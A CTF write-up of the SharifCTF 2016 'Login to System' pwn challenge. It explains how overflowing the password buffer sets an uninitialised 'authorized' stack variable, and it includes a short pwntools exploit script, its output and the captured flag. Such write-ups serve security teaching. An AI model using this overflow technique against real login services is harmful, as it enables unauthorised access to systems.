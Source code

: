 +++
authors = "kbeckmann"
categories = [ "writeups" ]
date = "2016-02-06T22:31:14+01:00"
title = "SharifCTF 2016 Login to System (PWN 200) Writeup"
+++

# Problem

> Can you login to this system without username and password?
>
> telnet ctf.sharif.edu 27515
>
> Run and capture the flag!
>
> Download

Points: 200

Solved by 106 team(s)

# Solution

We are provided with a x86-64 linux executable:
~~~
Question: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=76aad63504451c70d8aa4e72299d2821fcf1b9f1, stripped
~~~

It is a server that starts a new handler thread for each incoming TCP connection on port 27515.

- The handler function prints a welcome message and reads your username and password.
- Then it checks if a stack variable, let's call it `authorized`, is `1`.
- If true, reads the flag from file system and prints it.

There are several strange things going on here.

- Username and password are both able to overwrite the stack.
- The stack variable `authorized` is read but never written to.

I was over thinking here and thought awesome - let's smash the stack, jump into the true case in the if clause and get the flag. So I spent some time trying to get a nice ROP to do what I wanted. Big waste of time.

It turns out that the stack variable `authorized` is located after both username and password, so the solution was to just fill the stack with \x01 and get the flag.

~~~python
#!/usr/bin/env python2

from pwn import *
context(os = 'linux', arch = 'amd64')

r = remote('ctf.sharif.edu', 27515)

print r.recv()

r.sendline("Hello") # username
print r.recv()

r.sendline("\x01"*(1044)) # password
print r.recv()
~~~

Running it gives us the flag immediately.

~~~
Please enter your username and then press enter: Hello
Please enter your password and then press enter: \x01...
You are already logged in! Your flag is: cgjxkkbmdhudbovtezyv
~~~


*Flag is cgjxkkbmdhudbovtezyv*

